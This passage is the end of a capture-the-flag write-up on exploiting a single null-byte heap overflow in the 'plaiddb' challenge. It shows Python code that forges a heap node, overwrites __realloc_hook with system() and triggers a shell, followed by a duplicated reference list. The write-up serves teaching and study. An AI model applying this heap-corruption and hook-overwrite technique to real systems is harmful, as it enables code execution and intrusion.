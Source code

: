 ```python

# Now get to the next node, we'll make it point to our target.
overwrite  = overwrite.ljust(0x608, b"T")

overwrite += struct.pack("Q", 0x41)     # keep malloc happy
overwrite += struct.pack("Q", www)      # we need a freable key.
overwrite += struct.pack("Q", 0x0)
overwrite += struct.pack("Q", 0x0)
overwrite += struct.pack("Q", target-16)# left->data == target
overwrite += struct.pack("Q", 0x626262) # right
overwrite += struct.pack("Q", 0x626263) # parent
overwrite += struct.pack("Q", 0)

# Don't include the final \n as we normally do.
PUT(b"setup", overwrite, trim=True)
```

The only thing left to do is find a suitable target and value. This is rather
easy. We'll target `__realloc_hook` and overwrite it with `system`. This matches
our requirements because there is a valid pointer at the right offset before
`__realloc_hook` that can be used as the key.

Let's look at what happens during the `PUT`:

[![trigger corruption stage 3][18]][8]

[8]: /public/res/single-null-byte-heap-overflow/exploit.html
[18]: /public/res/single-null-byte-heap-overflow/overwrite_followup.png

The first line is the allocation of the data that overwrites everything. Next we
see that **villoc points out there is an error** because we are freeing an
unknown chunk. This is the fake key we created, the update is done and it is no
longer needed. This is why it was so important this was freeable. We succeeded
because `free()` didn't complain or crash. You can see villoc marks the unknown
chunk dashed and it matches where we build our fake key near the begining of our
huge data.

On the next line nothing seems to happen, it's a `free(0x0)`. We didn't bother
setting up a valid value for the data pointer of the temporary node after we
overwrote it and just set it to null. Finally the temporary node itself is
freed.

#### Now we get a shell

We are almost there! Now whenever we cause a call to `realloc()` the hook we
installed will cause `system()` to be called. It's first argument with be the
same as `realloc`'s: the key being re-allocated.

```python
# Now we control __realloc_hook, trigger it.
PUT(b"sh < /dev/stdout;" + b":;" * 100, b"foo")
```


# Comments and advice


[1]: http://packetstorm.sigterm.no/papers/attack/MallocMaleficarum.txt
[2]: http://github.com/ctfs/write-ups-2015/tree/master/plaidctf-2015/pwnable/plaiddb
[3]: http://github.com/wapiflapi/villoc
[4]: http://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html
[3]: http://github.com/wapiflapi/villoc
[5]: /2014/04/30/getting-a-shell-on-fruits-bkpctf-2014/
[6]: /public/res/single-null-byte-heap-overflow/fuzed_crash.html
[7]: /public/res/single-null-byte-heap-overflow/fuzed_crash.png
[4]: http://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html
[9]: /public/res/single-null-byte-heap-overflow/create_hole.png
[10]: /public/res/single-null-byte-heap-overflow/fill_hole.png
[11]: /public/res/single-null-byte-heap-overflow/build_wall.png
[12]: /public/res/single-null-byte-heap-overflow/corrupt_stage1.png
[13]: /public/res/single-null-byte-heap-overflow/corrupt_stage2.png
[14]: /public/res/single-null-byte-heap-overflow/corrupt_after.png
[15]: /public/res/single-null-byte-heap-overflow/corrupt_cleared.png
[16]: /public/res/single-null-byte-heap-overflow/leak.png
[19]: http://blog.frizn.fr/pctf-2015/pwn-550-plaiddb
[17]: /public/res/single-null-byte-heap-overflow/overwrite.png
[1]: http://packetstorm.sigterm.no/papers/attack/MallocMaleficarum.txt
[2]: http://github.com/ctfs/write-ups-2015/tree/master/plaidctf-2015/pwnable/plaiddb
[3]: http://github.com/wapiflapi/villoc
[4]: http://googleprojectzero.blogspot.fr/2014/08/the-poisoned-nul-byte-2014-edition.html
[5]: /2014/04/30/getting-a-shell-on-fruits-bkpctf-2014/
[6]: /public/res/single-null-byte-heap-overflow/fuzed_crash.html
[7]: /public/res/single-null-byte-heap-overflow/fuzed_crash.png
[9]: /public/res/single-null-byte-heap-overflow/create_hole.png
[10]: /public/res/single-null-byte-heap-overflow/fill_hole.png
[11]: /public/res/single-null-byte-heap-overflow/build_wall.png
[12]: /public/res/single-null-byte-heap-overflow/corrupt_stage1.png
[13]: /public/res/single-null-byte-heap-overflow/corrupt_stage2.png
[14]: /public/res/single-null-byte-heap-overflow/corrupt_after.png
[15]: /public/res/single-null-byte-heap-overflow/corrupt_cleared.png
[16]: /public/res/single-null-byte-heap-overflow/leak.png
[17]: /public/res/single-null-byte-heap-overflow/overwrite.png